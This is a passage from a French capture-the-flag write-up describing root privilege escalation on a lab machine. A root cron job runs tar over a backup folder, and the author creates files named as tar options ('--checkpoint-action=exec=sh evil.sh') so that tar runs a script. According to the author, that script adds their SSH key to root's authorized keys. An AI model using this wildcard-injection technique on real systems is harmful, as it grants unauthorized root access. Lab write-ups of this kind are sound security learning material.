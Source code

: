 Ce script rajoute ma clé publique SSH aux clés autorisées de root et au cas où je recopie aussi le flag.  

Il ne reste plus qu'à mettre en place les fichiers qui vont s'injecter dans la commande du crontab :  

```bash
cd /home/rene/backup; touch -- "--checkpoint=1"; touch -- "--checkpoint-action=exec=sh evil.sh"; touch a
```

On attend un peu et on touche le jackpot :  

![PIPE CTF flag](https://raw.githubusercontent.com/devl00p/blog/master/images/pipe_ctf.png)

Au passage le script qui générait les fichiers BAK n'était là que pour la forme :  

```bash
#!/bin/bash

head -c $RANDOM /dev/urandom > "/home/rene/backup/sys-$RANDOM.BAK"
chown rene:rene /home/rene/backup/*.BAK
```

*Published November 17 2017 at 16:47*
